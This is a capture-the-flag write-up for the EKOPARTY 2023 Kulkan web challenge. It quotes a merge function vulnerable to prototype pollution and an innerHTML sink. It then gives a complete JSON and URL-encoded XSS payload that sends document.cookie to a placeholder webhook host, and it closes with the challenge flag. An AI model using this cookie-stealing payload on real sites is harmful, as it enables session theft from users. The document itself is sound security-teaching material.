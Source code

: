 ```yaml
---
title: EKOPARTY 2023 - Kulkan
date: Fri Nov  3 07:25:33 PM +04 2023
categories: [Writeup]
tags: [ctf,ekoparty,ekoparty2023,web,prototype_pollution]
---
```


## Description

![kulkan-1](/assets/images/ekoparty/2023/kulkan-1.png)

Challenge: [Link](https://www.penetration-testing.com/) 

Sponsor: [Kulkan Security](https://www.kulkan.com/)

## Solution

Dive into source code: [challenge.js](https://www.penetration-testing.com/static/challenge.js)

1\. `params` are taken from URL or the document element.

```js
const params = new URLSearchParams(window.location.search);
document.getElementById('input_json').value = params.get('input_json') || '';
```

2\. XSS Vector

```js
...
let randomObject = {};
...
if (randomObject.win) {
    complimentDiv.innerHTML = randomObject.win;
}
```

3\. Prototype Pollution Vector, > [More](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution) <

```js
function mergeObjects(target, source) {
    for (let key in source) {
        if (typeof source[key] === 'object' && source[key] !== null) {
            if (!target[key]) {
                target[key] = {};
            }
            mergeObjects(target[key], source[key]);
        } else {
            target[key] = source[key];
        }
    }
}
```

Payload: 

```json
{
  "compliment": "Messi is such an incredible..",
  "Object": {
    "__proto__": {
      "win": "<img src=x onerror='this.src=`<WebhookLink>/?c=${document.cookie}`; this.removeAttribute(`onerror`);'>"
    }
  },
  "color": "blue",
  "fontSize": "24px"
}
```

URL Payload: 

```json
https://www.penetration-testing.com/?input_json={"compliment":%20"Messi%20is%20such%20an%20incredible..","Object":%20{"__proto__":%20{"win":%20"<img%20src=x%20onerror=%27this.src=`<WebhookLink>/?c=${document.cookie}`;%20this.removeAttribute(`onerror`);%27>"}},"color":%20"blue","fontSize":%20"24px"}
```

> Webhook sites like [beeceptor](https://beeceptor.com) or [webhook.site](https://webhook.site/)
{: .prompt-info }

> Flag: EKO{Kulk4n__Quetz4}
{: .prompt-tip }